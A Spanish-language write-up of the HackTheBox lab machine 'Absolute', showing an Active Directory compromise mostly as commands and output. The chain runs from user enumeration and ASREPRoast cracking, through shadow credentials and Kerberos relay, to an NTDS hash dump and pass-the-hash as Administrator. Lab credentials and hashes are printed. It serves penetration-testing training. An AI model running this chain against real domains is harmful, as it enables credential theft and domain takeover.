







Resolución de la máquina Absolute de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nma, lanzando scripts de reconocimiento
❯ nmap -sC 10.10.11.181
Nmap scan report for 10.10.11.181
PORT STATE SERVICE
53/tcp open domain
80/tcp open http
88/tcp open kerberos-sec
135/tcp open msrpc
139/tcp open netbios-ssn
389/tcp open ldap
| ssl-cert: Subject: commonName=dc.absolute.htb
445/tcp open microsoft-ds
464/tcp open kpasswd5
593/tcp open http-rpc-epmap
636/tcp open ldapssl
| ssl-cert: Subject: commonName=dc.absolute.htb
5985/tcp open wsman
9389/tcp open adws
47001/tcp open winrm
49664/tcp open unknown
49665/tcp open unknown
49666/tcp open unknown
49667/tcp open unknown
49675/tcp open unknown
49699/tcp open unknown
Podemos ver dc.absolute.htb asi que agregamos ambos hosts al /etc/hosts con la ip
❯ echo "10.10.11.181 absolute.htb dc.absolute.htb" | sudo tee -a /etc/hosts
10.10.11.181 absolute.htb dc.absolute.htb
En el codigo fuente podemos ver varios archivos jpg en /images asi que los descargamos

❯ for i in $(seq 1 6); do wget http://absolute.htb/images/hero_$i.jpg; done
Usano exiftool en una de las imagenes podemos ver un campo Author con un posible usuario
❯ exiftool hero_1.jpg
ExifTool Version Number : 12.54
File Name : hero_1.jpg
Directory : .
File Size : 407 kB
File Modification Date/Time : 2022:06:07 15:45:20-04:00
File Access Date/Time : 2023:01:25 19:40:30-05:00
File Inode Change Date/Time : 2023:01:25 19:39:33-05:00
File Permissions : -rw-r--r--
File Type : JPEG
File Type Extension : jpg
MIME Type : image/jpeg
Exif Byte Order : Little-endian (Intel, II)
X Resolution : 72
Y Resolution : 72
Resolution Unit : inches
Artist : James Roberts
Y Cb Cr Positioning : Centered
Quality : 60%
XMP Toolkit : Image::ExifTool 11.88
Author : James Roberts
Creator Tool : Adobe Photoshop CC 2018 Macintosh
Derived From Document ID : 6413FD608B5C21D0939F910C0EFBBE44
Derived From Instance ID : 6413FD608B5C21D0939F910C0EFBBE44
Document ID : xmp.did:887A47FA048811EA8574B646AF4FC464
Instance ID : xmp.iid:887A47F9048811EA8574B646AF4FC464
DCT Encode Version : 100
APP14 Flags 0 : [14], Encoded with Blend=1 downsampling
APP14 Flags 1 : (none)
Color Transform : YCbCr
Image Width : 1900
Image Height : 1150
Encoding Process : Baseline DCT, Huffman coding
Bits Per Sample : 8
Color Components : 3
Y Cb Cr Sub Sampling : YCbCr4:4:4 (1 1)
Image Size : 1900x1150
Megapixels : 2.2
Asi que de todas las imagenes podemos conseguir una posible lista de usuarios validos
❯ exiftool *.jpg | grep Author | awk '{print $3,$4}'
James Roberts
Michael Chaffrey
Donald Klay
Sarah Osvald
Jeffer Robinson
Nicole Smith
Generalmente en AD se usan nombre como N.Surname, asi que le daremos esa forma
J.Roberts
M.Chaffrey
D.Klay
S.Osvald
J.Robinson
N.Smith
Podemos comprobar que sean validos con kerbrute y lo confirmamos, todon son validos
❯ kerbrute userenum users.txt -d absolute.htb --dc dc.absolute.htb
__ __ __
/ /_____ _____/ /_ _______ __/ /____
/ //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
/ ,< / __/ / / /_/ / / / /_/ / /_/ __/
/_/|_|\___/_/ /_.___/_/ \__,_/\__/\___/
Version: v1.0.3 (9dad6e1) - 01/26/23 - Ronnie Flathers @ropnop
> Using KDC(s):
> dc.absolute.htb:88
> [+] VALID USERNAME: J.Roberts@absolute.htb
> [+] VALID USERNAME: N.Smith@absolute.htb
> [+] VALID USERNAME: J.Robinson@absolute.htb
> [+] VALID USERNAME: S.Osvald@absolute.htb
> [+] VALID USERNAME: M.Chaffrey@absolute.htb
> [+] VALID USERNAME: D.Klay@absolute.htb
> Done! Tested 6 usernames (6 valid) in 0.440 seconds
Con una lista de usuarios validos podemos probar un ASREPRoast para intentar conseguir un hash
❯ impacket-GetNPUsers absolute.htb/ -dc-ip dc.absolute.htb -usersfile users.txt
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[-] User J.Roberts doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User M.Chaffrey doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$D.Klay@ABSOLUTE.HTB:5b1a800cb271d48ca649b04a0e818ced$343deda4b3ecd7aab78142680f002b7353f2e1d60d5bbb02518b2f8cc8ea7292f3547379b604b11e6488bdbe65f0226de48e14dc2a70e8c71656f3185329bcf7bb5d1d85c569662dd37b7bbe67d46abb7393923a62fa1f4db730ac9b49643da5341c2b76df4c10507f0bd836f6aa2c877afb8ac69690ba6b3f4a9ebe7408f2b7488d817ae009b54a845d5216bfc240f57f9b0ad8d18d40d08e82957e0591aa6b43e6fe584780ed9384c5e4b9a1a3c84e1dc0f8a8446e8e8dba40a42f183d672571bea7f8431bcdd58ed30706997917afbf45a80f4d8a01ad2e247d2e1318a3c816a2e49e3c46df46b4b21ded
[-] User S.Osvald doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User J.Robinson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User N.Smith doesn't have UF_DONT_REQUIRE_PREAUTH set
Ahora con ayuda de john logramos romper el hash y conseguir una contraseña en texto claro
❯ john -w:/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP)
Darkmoonsky248girl ($krb5asrep$23$D.Klay@ABSOLUTE.HTB)
Session completed.
Tenemos credenciales válidas, pero al intentar validarlas con crackmapexec tenemos un problema...
❯ crackmapexec smb absolute.htb -u D.Klay -p Darkmoonsky248girl
SMB 10.10.11.181 445 DC [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB 10.10.11.181 445 DC [-] absolute.htb\D.Klay:Darkmoonsky248girl STATUS_ACCOUNT_RESTRICTION
Hay una restriccion que nos permite autenticarnos por este protocolo, pero no esta todo perdido despues de todo hay otros como kerberos, lo unico tenemos que sincronizar la hora de la máquina
❯ sudo ntpdate -s absolute.htb
Generamos el ticket y lo exportamos a la variable KRB5CCNAME para autenticarnos
❯ impacket-getTGT absolute.htb/d.klay:Darkmoonsky248girl
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Saving ticket in d.klay.ccache
❯ export KRB5CCNAME=d.klay.ccache
Ahora con crackmapexec a ldap a través de kerberos podemos dumpear usuarios (y descripciones)
❯ crackmapexec ldap absolute.htb -u d.klay -d absolute.htb -k --kdcHost dc.absolute.htb --users
SMB absolute.htb 445 DC [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
LDAP absolute.htb 389 DC [+] absolute.htb\
LDAP absolute.htb 389 DC [*] Total of records returned 20
LDAP absolute.htb 389 DC Administrator Built-in account for administering the computer/domain
LDAP absolute.htb 389 DC Guest Built-in account for guest access to the computer/domain
LDAP absolute.htb 389 DC krbtgt Key Distribution Center Service Account
LDAP absolute.htb 389 DC J.Roberts
LDAP absolute.htb 389 DC M.Chaffrey
LDAP absolute.htb 389 DC D.Klay
LDAP absolute.htb 389 DC s.osvald
LDAP absolute.htb 389 DC j.robinson
LDAP absolute.htb 389 DC n.smith
LDAP absolute.htb 389 DC m.lovegod
LDAP absolute.htb 389 DC l.moore
LDAP absolute.htb 389 DC c.colt
LDAP absolute.htb 389 DC s.johnson
LDAP absolute.htb 389 DC d.lemm
LDAP absolute.htb 389 DC svc_smb AbsoluteSMBService123!
LDAP absolute.htb 389 DC svc_audit
LDAP absolute.htb 389 DC winrm_user Used to perform simple network tasks
La descripción del usuario svc_smb nos muestra una contraseña, de la misma manera que antes podemos obtener un TGT de kerberos para svc_smb
❯ impacket-getTGT absolute.htb/svc_smb:AbsoluteSMBService123!
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Saving ticket in svc_smb.ccache
❯ export KRB5CCNAME=svc_smb.ccache
Al conectarnos a smb por kerberos podemos ver un recurso Shared que nos ofrede un archivo .exe y un archivo .sh, descargamos ambos
❯ impacket-smbclient svc_smb@dc.absolute.htb -k -no-pass
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
Type help for list of commands
# shares
ADMIN$
C$
IPC$
NETLOGON
Shared
SYSVOL
# use Shared
# ls
drw-rw-rw- 0 Thu Sep 1 13:02:23 2022 .
drw-rw-rw- 0 Thu Sep 1 13:02:23 2022 ..
-rw-rw-rw- 72 Thu Sep 1 13:02:23 2022 compiler.sh
-rw-rw-rw- 67584 Thu Sep 1 13:02:23 2022 test.exe
# get test.exe
# get compiler.sh
#
En un Windows podemos ejecutar el .exe, pero realmente no nos dice nada interesante
PS C:\Users\pc1\Desktop> .\test.exe
PS C:\Users\pc1\Desktop>
Necesitamos varias cosas, primero que nada conectar la vpn de htb en el windows

Ahora es necesario agregar los hosts para que sepa a donde resolver el dominio

Ejecutamos el exe escuchando con wireshark por la interfaz de la vpn, vemos algunas peticiónes interesantes que parecen realizar una autenticación
PS C:\Users\pc1\Desktop> .\test.exe
PS C:\Users\pc1\Desktop>

Revisando la petición podemos ver las credenciales usadas en la autenticación

Tenemos credenciales para ldap, podemos conseguir otro ticket para kerberos y jugar con bloodhound para ver rutas para escalar
❯ impacket-getTGT absolute.htb/m.lovegod:AbsoluteLDAP2022!
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Saving ticket in m.lovegod.ccache
❯ export KRB5CCNAME=m.lovegod.ccache
❯ bloodhound-python -u m.lovegod -k -d absolute.htb -dc dc.absolute.htb -ns 10.10.11.181 --dns-tcp --zip -no-pass -c ALL
INFO: Found AD domain: absolute.htb
INFO: Using TGT from cache
INFO: Found TGT with correct principal in ccache file.
INFO: Connecting to LDAP server: dc.absolute.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.absolute.htb
INFO: Found 18 users
INFO: Found 55 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.absolute.htb
INFO: Ignoring host dc.absolute.htb since its reported name does not match
INFO: Done in 00M 14S
INFO: Compressing output into 20230126082132_bloodhound.zip
Subimos el zip a la base de datos de bloodhound y marcamos usuarios owneados

Podemos ver una posible ruta de pasar a winrm_user mediante el grupo network audit

Tenemos que crear un entorno en un Windows para simular el dc, haremos lo siguiente
PS C:\Users\pc1\Desktop> Import-Module .\PowerView.ps1
PS C:\Users\pc1\Desktop> $SecPassword = ConvertTo-SecureString "AbsoluteLDAP2022!" -AsPlainText -Force
PS C:\Users\pc1\Desktop> $Cred = New-Object System.Management.Automation.PSCredential("Absolute.htb\m.lovegod", $SecPassword)
PS C:\Users\pc1\Desktop> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Network Audit" -Rights all -DomainController dc.absolute.htb -PrincipalIdentity "m.lovegod"
PS C:\Users\pc1\Desktop> Add-ADPrincipalGroupMembership -Identity m.lovegod -MemberOf "Network Audit" -Credential $Cred -server dc.absolute.htb
Usando a m.lovegod con kerberos usamos pywhisker para crear un pfx y su contraseña
❯ python3 pywhisker.py -d absolute.htb -u m.lovegod -t winrm_user -k --no-pass --action add
[*] Searching for the target account
[*] Target user found: CN=winrm_user,CN=Users,DC=absolute,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: b05ff8c1-5a40-91c6-b0a4-fce0242ac4cb
[*] Updating msDS-KeyCredentialLink attribute of winrm_user
[+] Update the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: ZgbGSY8Q.pfx
[*] Must be used with password: z9BC3FAFY3QdA9t9ANKK
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
Usamos gettgtpkinit para conseguir un tgt para winrm_user y lo exportamos a la variable
❯ python3 gettgtpkinit.py absolute.htb/winrm_user -cert-pfx ZgbGSY8Q.pfx -pfx-pass z9BC3FAFY3QdA9t9ANKK winrm_user.ccache
minikerberos INFO Loading certificate and key from file
minikerberos INFO Requesting TGT
minikerberos INFO AS-REP encryption keys (you might need this later):
minikerberos INFO e564eb3c290f09df5de646ca54feb2bb8672ab04ec7135029d32697893f9e63
minikerberos INFO Saver TGT to file
❯ export KRB5CCNAME=winrm_user.ccache
Ahora nos podemos conectar facilmente con evil-winrm y ver la primera flag
❯ evil-winrm -i absolute.htb -r absolute.htb
PS C:\Users\winrm_user\Documents> whoami
absolute\winrm_user
PS C:\Users\winrm_user\Documents> type ..\Desktop\user.txt
9d4**************************906
PS C:\Users\winrm_user\Documents>
Con ayuda de RunasCS y KrbRelay usando las credenciales intentaremos ver los datos que necesitamos
PS C:\Users\winrm_user\Documents> .\RunasCS.exe mlovegod AbsoluteLDAP2022! -d absolute.htb -l 9 "C:\Users\winrm_user\Documents\KrbRelay.exe -spn ldap/dc.absolute -clsid {752073A1-23F2-4396-85F0-8FDB879ED0ED} -shadowcred"
[*]Relaying context: absolute.htb\DC$
[*]Rewriting function table
[*]Rewriting PEB
[*]GetModuleFileName: System
[*]Init com server
[*]GetModuleFileName: C:\users\winrm_user\documents\KrbRelay.exe
[*]Register com server
objref:TUVPVwEAAA....
[*] Forcing SYSTEM authentication
[*] Using CLSID: 752073a1-23f2-4396-85f0-8fdb879ed0ed
[*] apReq: ....
[*] bind: 0
[*] ldap_get_option: LDAP_SASL_BIND_IN_PROGRESS
[*] apRep1: ....
[*] AcceptSecurityContext: SEC_I_CONTINUE_NEEDED
[*] fContextReq: Delegate, MutualAuth, UseDceStyle, Connection
[*] apRep2: ....
[*] bind: 0
[*] ldap_get_option: LDAP_SUCCESS
[+] LDAP session established
[*] ldap_modify: LDAP_SUCCESS
[*] Rubeus.exe asktgt /user: DC$ /certificate:CERTIFICATE /password:"xX1#qM5/eJ0=" /getcredentials /show
Ahora ejecutamos el comando que nos da jugando con Rubeus, podemos ver el hash ntlm
PS C:\Users\winrm_user\Documents> .\Rubeus.exe asktgt /user:DC$ /certificate:CERTIFICATE> /password:"xX1#qM5/eJ0=" /getcredentials /show
[*] Action: Ask TGT
[*] Using PKINIT with etype rc4_hmac and subject: CN=DC$
[*] Building AS-REQ (w/ PKINIT preauth) for: 'absolute.htb\DC$'
[+] TGT request successful!
[*] base64(ticket.kirbi):
................................................................
ServiceName : krbtgt/absolute.htb
ServiceRealm : ABSOLUTE.HTB
UserName : DC$
UserRealm : ABSOLUTE.HTB
Flags : name_canonicalize, pre_authent, initial, renewable, forwardable
KeyType : rc4_hmac
Base64(key) : yHrqDFTj1Zwc3W8/QBNKDg==
ASREP (key) : F99EF936A3999F80D62AC070288A3D00
[*] Getting credentials using U2U
CredentialInfo :
Version : 0
EncryptionType : rc4_hmac
CredentialData :
CredentialCount : 1
NTLM : A7864AB463177ACB9AEC553F18F42577
Con esto y ayuda de crackmapexec podemos dumpear el ntds y ver todos los hashes
❯ crackmapexec smb absolute.htb -u 'DC$' -H A7864AB463177ACB9AEC553F18F42577 --ntds
SMB absolute.htb 445 DC [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB absolute.htb 445 DC [+] absolute.htb\DC$:A7864AB463177ACB9AEC553F18F42577
SMB absolute.htb 445 DC [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
SMB absolute.htb 445 DC [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB absolute.htb 445 DC Administrator\Administrator:500:aad3b435b51404eeaad3b435b51404ee:1f4a6093623653f6488d5aa24c75f2ea:::
SMB absolute.htb 445 DC Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB absolute.htb 445 DC krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3ca378b063b18294fa5122c66c2280d4:::
SMB absolute.htb 445 DC J.Roberts:1103:aad3b435b51404eeaad3b435b51404ee:7d6b7511772593b6d0a3d2de4630025a:::
SMB absolute.htb 445 DC M.Chaffrey:1104:aad3b435b51404eeaad3b435b51404ee:13a699bfad06afb35fa0856f69632184:::
SMB absolute.htb 445 DC D.Klay:1105:aad3b435b51404eeaad3b435b51404ee:21c95f594a80bf53afc78114f98fd3ab:::
SMB absolute.htb 445 DC s.osvald:1106:aad3b435b51404eeaad3b435b51404ee:ab14438de333bf5a5283004f660879ee:::
SMB absolute.htb 445 DC j.robinson:1107:aad3b435b51404eeaad3b435b51404ee:0c8cb4f338183e9e67bbc98231a8e59f:::
SMB absolute.htb 445 DC n.smith:1108:aad3b435b51404eeaad3b435b51404ee:ef424db18e1ae6ba889fb12e8277797d:::
SMB absolute.htb 445 DC m.lovegod:1109:aad3b435b51404eeaad3b435b51404ee:a22f2835442b3c4cbf5f24855d5e5c3d:::
SMB absolute.htb 445 DC l.moore:1110:aad3b435b51404eeaad3b435b51404ee:0d4c6dccbfacbff5f8b4b31f57c528ba:::
SMB absolute.htb 445 DC c.colt:1111:aad3b435b51404eeaad3b435b51404ee:fcad808a20e73e68ea6f55b268b48fe4:::
SMB absolute.htb 445 DC s.johnson:1112:aad3b435b51404eeaad3b435b51404ee:b922d77d7412d1d616db10b5017f395c:::
SMB absolute.htb 445 DC d.lemm:1113:aad3b435b51404eeaad3b435b51404ee:e16f7ab64d81a4f6fe47ca7c21d1ea40:::
SMB absolute.htb 445 DC svc_smb:1114:aad3b435b51404eeaad3b435b51404ee:c31e33babe4acee96481ff56c2449167:::
SMB absolute.htb 445 DC svc_audit:1115:aad3b435b51404eeaad3b435b51404ee:846196aab3f1323cbcc1d8c57f79a103:::
SMB absolute.htb 445 DC winrm_user:1116:aad3b435b51404eeaad3b435b51404ee:8738c7413a5da3bc1d083efc0ab06cb2:::
SMB absolute.htb 445 DC DC$:1000:aad3b435b51404eeaad3b435b51404ee:a7864ab463177acb9aec553f18f42577:::
Con el hash de Administrator nos conectamos con evil-winrm y leemos la flag final
❯ evil-winrm -i absolute.htb -u Administrator -H 1f4a6093623653f6488d5aa24c75f2ea
PS C:\Users\Administrator\Documents> whoami
absolute\administrator
PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
8b2**************************7f7
PS C:\Users\Administrator\Documents>